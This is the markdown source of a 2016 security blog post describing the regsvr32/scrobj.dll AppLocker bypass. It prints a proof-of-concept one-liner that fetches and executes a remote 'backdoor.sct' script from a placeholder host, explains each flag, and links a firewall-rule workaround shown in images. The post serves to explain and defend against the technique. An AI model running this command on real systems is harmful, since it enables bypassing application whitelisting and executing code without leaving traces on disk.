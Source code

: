 ```yaml
---
layout: post
title: Who said that Advanced Exploitation is necessary?! - regsvr32
published: true
date: 2016-04-27 20:45:35
categories: [Vulnerability, Windows, Firewall]

---
```


{% assign imagedir = "/images/" | prepend: site.baseurl | prepend: site.url   %}
A new vulnerability on Windows has been found on the 25/04/2016 by a security researcher named Casey Smith.

It’s *not clearly a vulnerability* but instead a *feature that is included by design by Microsoft*, which means, *no patch*.

The exploitation use *Regsvr32* to call up a remotely hosted file that could be used to run any application – or malicious content. 
Regsvr32 is signed and trusted by Microsoft - it can bypass AppLocker security policy in order to execute anything on the machine. It is also proxy aware, used TLS, follows redirects, etc.


### Proof Of Concept

	regsvr32 /s /n /u /i:http://x.x.x.x/backdoor.sct scrobj.dll

* Regsvr32: Part of the operating system and can be used to register and unregister COM script files with the Windows Registry
* /s tells Regsvr32 to be silent
* /n tells it not to use DllRegisterServer
* /u unregister an object
* /I pass an optional argument (can be an URL)
* Scrobj.dll Microsoft Script Component Runtime (dll which will be register and unregister)

The URL used in this example will execute the remote script backdoor.sct which contains:

![regsvr32-1.jpg]({{ "regsvr32-1.jpg" | prepend: imagedir}})

Output:

![regsvr32-2.png]({{ "regsvr32-2.png" | prepend: imagedir}}) 

[Proof Of Concept here](https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302)

### This type of exploitation is critical for many reasons:
-	Can take advantage of a high privilege user to execute administration tasks on the machine
-	Can be  used as part of a phishing campaign or other
-	Numerous POC start showing on internet and newbies will be able to use it as bad purposes.
-	Very difficult or impossible to detect as does not leave any trace on disk as it’s pure to-memory download.

### Workaround to block it:

A quick win to block this exploitation to happen would be to create a local firewall rule on each machine as follow:

![regsvr32-3.png]({{ "regsvr32-3.png" | prepend: imagedir}})

![regsvr32-4.png]({{ "regsvr32-4.png" | prepend: imagedir}})

![regsvr32-5.png]({{ "regsvr32-5.png" | prepend: imagedir}})







 
